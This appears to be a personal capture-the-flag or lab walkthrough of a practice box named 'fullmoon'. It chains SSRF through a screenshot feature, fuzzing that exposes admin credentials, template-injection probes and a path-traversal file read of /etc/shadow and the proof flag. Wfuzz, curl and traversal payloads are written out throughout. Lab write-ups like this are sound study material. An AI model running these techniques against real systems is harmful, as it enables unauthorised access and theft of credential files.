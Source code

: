 testing at `http://fullmoon/demo` to see if able to hit my `kali machine`
![[Pasted image 20250225144144.png]]
was able to hit my `python3` server
![[Pasted image 20250225145546.png]]
the `URL` analyze now leads us to believe `SSRF`, going down `SSRF methodology`

`file;///etc/passwd` didnt work
![[Pasted image 20250225145950.png]]`localhost` isn't allowed
![[Pasted image 20250225152908.png]]
`http://00.0.0:80/admin` is allowed
![[Pasted image 20250225153009.png]]
doesn't show anything when hitting `analyze Now` but if we look in `BURP` we can see an interesting response with a new `endpoint` for screenshots
![[Pasted image 20250225153310.png]]
if we browse to this location we see an `admin login` `http://fullmoon/screenshots/fullmoon-demo-screenshots-13.png` which is just a screenshot
![[Pasted image 20250225153457.png]]
when searching the `URL` for some reason it doesn't pop into `BURP` going to have to use `FFUF`

```bash
wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://offsecwp:80/index.php?fpv=FUZZ
wfuzz -c -z file,/usr/share/seclists/Fuzzing/3-digits-000-999.txt --hc 404,301 http://fullmoon/screenshots/fullmoon-demo-screenshots-FUZZ.png


wfuzz -c -z file,/usr/share/seclists/Fuzzing/3-digits-000-999.txt --hc 404,301 http://fullmoon/screenshots/fullmoon-demo-screenshots-13.png
```

did an `intruder` sniper attack on `1-99` but didnt find anything, going to need to extend the list
![[Pasted image 20250225155039.png]]
`wfuzz` ended up working fine
```bash
wfuzz -z range,1-1000 http://fullmoon/screenshots/fullmoon-demo-screenshots-FUZZ.png                                                                                            
```
we can see that the `1,3,7` have less `chars` than the others making these stick out
![[Pasted image 20250227183531.png]]
after understanding the function of the `http://fullmoon/demo` endpoint we understand that we have the `capability` to take `screenshots`, this allows us to bypass `authentication` with the `SSRF` 

looking at the `1.png`
`http://0.0.0.0/screenshots/fullmoon-demo-screenshots-1.png`
![[Pasted image 20250227183821.png]]
making sure the `POST` request properly went through and can see the new path of our `screenshot`
![[Pasted image 20250227184027.png]]navigating to `http://fullmoon/screenshots/fullmoon-demo-screenshots-19.png` - nothing found here
![[Pasted image 20250227184107.png]]
taking an `screenshot` of the `7.png` `http://0.0.0.0/screenshots/fullmoon-demo-screenshots-7.png`

![[Pasted image 20250227184215.png]]
seeing that the new path of this image is `21.png` `/screenshots/fullmoon-demo-screenshots-21.png`
![[Pasted image 20250227184301.png]]
got credentials
`admin:fQ86z6TxMncXCzmv2NY5`
![[Pasted image 20250227184325.png]]
logging in at `http://fullmoon/login`

![[Pasted image 20250227184541.png]]
got `local.txt` `f791273bd4509b02929d6afa0c7debd5`
- can see this may be some sort of `SSTI`
![[Pasted image 20250227184916.png]]
able to navigate to `templates` tab after a couple tries also able to edit them
![[Pasted image 20250227185304.png]]
created a `Test` template to begin testing of `SSTI`, the goal is to identify which language is being utilized here

`{{7*7}}` - not twig
![[Pasted image 20250227185439.png]]
if we change the `Template`we can see if it worked or not - this one did not work
![[Pasted image 20250227185535.png]]
not `apache freemarker`
`${7*7}`
![[Pasted image 20250227185724.png]]
not `pug`
```bash
h1 Hello, #{SECRET_STRING}
input(type='hidden' name='admin' value='true')

if SECRET_STRING
  - secret = ['❤️','😍', '🤟']
  p The secrets are: 
  each val in secret
    p #{val}
else
  p No secret for you!
```
![[Pasted image 20250227185853.png]]
not `jinja`
```bash
{{ config }} #In these object you can find all the configured env variables


{% for key, value in config.items() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```
![[Pasted image 20250227185949.png]]

can see  `EJS` is being used
![[Pasted image 20250227191048.png]]
learned from `discord` that  the  `SSTI` is not the path forward, going to try to find `endpoints` that can be used for `LFI` however we need to  fuzz with the `admin` cookie

 `admin` cookie is valid - confirmed by `curl` testing
```bash
┌──(root💀gobots)-[28Feb2025 01:34:30]-[/usr/share/payloadsallthethings/File Inclusion/Intruders]
└─# curl -v -H "Cookie: connect.sid=s%3AnYWVJATTZXdKubEAjCeGZQ-yT2TrpMeV.DeLhuJ%2B%2FVwi6sVxfQ14UuhcaAsgRO1jZwFhA3%2BrOWpo" \
"http://fullmoon/screenshots/fullmoon-demo-screenshots-22.png"

* Host fullmoon:80 was resolved.
* IPv6: (none)
* IPv4: 192.168.239.128
*   Trying 192.168.239.128:80...
* Connected to fullmoon (192.168.239.128) port 80
> GET /screenshots/fullmoon-demo-screenshots-22.png HTTP/1.1
> Host: fullmoon
> User-Agent: curl/8.8.0
> Accept: */*
> Cookie: connect.sid=s%3AnYWVJATTZXdKubEAjCeGZQ-yT2TrpMeV.DeLhuJ%2B%2FVwi6sVxfQ14UuhcaAsgRO1jZwFhA3%2BrOWpo
> 
* Request completely sent off
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Access-Control-Allow-Origin: *
< Content-Type: image/png
< Content-Disposition: inline; filename="fullmoon-demo-screenshots-22.png"
< X-Content-Type-Options: nosniff
< Accept-Ranges: bytes
< Cache-Control: public, max-age=0
< Last-Modified: Fri, 28 Feb 2025 01:16:18 GMT
< ETag: W/"358d-1954a202f5f"
< Content-Length: 13709
< Date: Fri, 28 Feb 2025 01:34:58 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
* client returned ERROR on write of 5109 bytes
* Closing connection
```
the only endpoint that could lead to `LFI` after testing `http://fullmoon/screenshots/fullmoon-demo-screenshots-22.png`
![[Pasted image 20250227212326.png]]
`fuzz` command that worked to show `LFI` - note that for some reason seeing an `..png` does not show in burp so could not use `intruder` for this
```bash
┌──(root💀gobots)-[28Feb2025 01:41:24]-[/usr/share/payloadsallthethings/File Inclusion/Intruders]
└─# wfuzz -c --hh 404 -b "connect.sid=s%3AnYWVJATTZXdKubEAjCeGZQ-yT2TrpMeV.DeLhuJ%2B%2FVwi6sVxfQ14UuhcaAsgRO1jZwFhA3%2BrOWpo" -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --sc 200,500 "http://fullmoon/screenshots/FUZZ"

000000021:   200        36 L     36 W       999 Ch      "..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fshadow"                                                                                                      
000000020:   200        36 L     52 W       1909 Ch     "..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd"  
```

![[Pasted image 20250227212427.png]]
since we know the `LFI` works, looking for `proof.txt` `http://fullmoon/screenshots/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Froot%2Fproof.txt`

![[Pasted image 20250227212512.png]]
and if we look in burp we see the results of the `/etc/passwd` 
![[Pasted image 20250227212549.png]]
and `proof`
![[Pasted image 20250227212605.png]]